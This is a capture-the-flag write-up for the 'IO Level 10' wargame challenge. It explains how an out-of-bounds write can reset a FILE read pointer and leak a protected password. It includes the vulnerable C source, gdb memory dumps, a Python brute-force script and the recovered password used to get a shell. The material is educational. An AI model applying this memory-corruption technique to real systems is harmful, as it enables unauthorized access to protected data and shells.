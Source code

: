 # IO Level 10

## Problem
This problem has a fairly small code.
````
//written by andersonc0d3
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv){
        FILE *fp = fopen("/levels/level10_alt.pass", "r");
        struct {char pass[20], msg_err[20]} pwfile = {{0}};
        char ptr[0];

        if(!fp || argc != 2)
                return -1;

        fread(pwfile.pass, 1, 20, fp);
    pwfile.pass[19] = 0;
        ptr[atoi(argv[1])] = 0;
        fread(pwfile.msg_err, 1, 19, fp);
        fclose(fp);

        if(!strcmp(pwfile.pass, argv[1]))
                execl("/bin/sh", "sh", 0);
        else
                puts(pwfile.msg_err);


        return 0;
}
````

## Writeup

This program opens a "secret" file and reads the password. It also takes a command line argument and compares it with the password that is read. If they both match, a shell is 
given. However, there is no access to read the password file directly as it is set to elevated permission. 
The program also reads the next few bytes from the same file which is supposed to be the "error message". If the passwords dont match, the program then prints out the error message.
Also, there is a statement `ptr[atoi(argv[1])] = 0;` which sets the byte at (ptr + argv[1]) to zero. This is done after the first read from the password file. 

At this point, one can figure out that since there are reads happening on the same file, and this out-of-the-place statement is setting a byte to zero and dependant on the 
command line argument, there is a way to reset the read pointer of the file. If the pointer is reset, when there is a second read into the `msg_err` buffer, it reads the password
instead of the error message.

On opening this binary in gdb, and examining the structure of `FILE`:

````
(gdb) p *fp
$27 = {_flags = -72539000, _IO_read_ptr = 0x0, _IO_read_end = 0x0, _IO_read_base = 0x0, _IO_write_base = 0x0, _IO_write_ptr = 0x0, _IO_write_end = 0x0, _IO_buf_base = 0x0,
  _IO_buf_end = 0x0, _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0, _old_offset = 0, _cur_column = 0,
  _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0, _mode = 0,
  _unused2 = '\000' <repeats 39 times>}
(gdb)
````

There is a pointer called `_IO_read_ptr` which is initially 0.
This program cant be debugged directly in gdb because opening this in gdb would render the elevated password file inaccessible. One way is to compile this binary at a temporary
location and creating a password file on our own. On running the gdb on the temporary program and checking the `FILE` fter doing the read,

````
(gdb) p *fp
$28 = {_flags = -72539000, _IO_read_ptr = 0xb7fde014 "aaaaaaaaaabbbbbbbbbb\n", _IO_read_end = 0xb7fde029 "", _IO_read_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_write_ptr = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_end = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_buf_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_buf_end = 0xb7fdf000 "d\360\375\267\323\300\377\267", _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0,
  _old_offset = 0, _cur_column = 0, _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0,
  _mode = -1, _unused2 = '\000' <repeats 39 times>}
(gdb)
````

Note that the _IO_read_ptr is now pointing to the location after the password is read and this has to be reset to the beginning. On printing the address of this pointer in memory
and the address of `ptr` variable which allows us to set an "arbitrary" byte to 0
````
p &fp._IO_read_ptr
$29 = (char **) 0x804a00c
p &ptr
$30 = (char (*)[]) 0xbffffc74
````
So the difference would be 
````
p (int)&ptr - (int)&fp._IO_read_ptr
$31 = -1208263576
```` 

So if I pass 1208263576 as the argument, it sets the first byte of value pointed to by fp._IO_read_ptr to 0. Since there were only 20 bytes read, setting the first byte to zero 
would reset the pointer. However, it wont set the required byte to zero adn fread still reads the "error message" into the `msg_err` buffer.

Note that the address of pointer `ptr` depends on the length of command line argument since the command line argument is stored on the stack. On performing the same calculations with
the new argument obtained above (1208263576)

````
p (int)&ptr - (int)&fp._IO_read_ptr
$40 = -1208263592
````

Thus the new argument is 1208263592. This argument resets the read pointer and causes the password to be printed out as error message.

However, on running this on the original binary, the offsets vary. One method is to brute force the program with different values around the values obtained in gdb. The 
python script described below does that.

````
#!/usr/bin/env python
import subprocess
import sys

start = 1208260000
end = 1208270000
for i in range(start, end):
    try:
        output = subprocess.check_output(["/levels//level10", str(i)], stderr=None)
    except Exception:
        continue
    if output.find("ACCESS") == -1:
        print i
````

This find the value to be "1208263612". Hence on running,
` /levels/level10 1208263612`
the password that is supposed to be input is obtained.
"AverYloNgPassword!!"

**This is then passed to the binary using
`/levels/level10 `python -c 'print "AverYloNgPassword!!"'`
and the shell is obtained.**

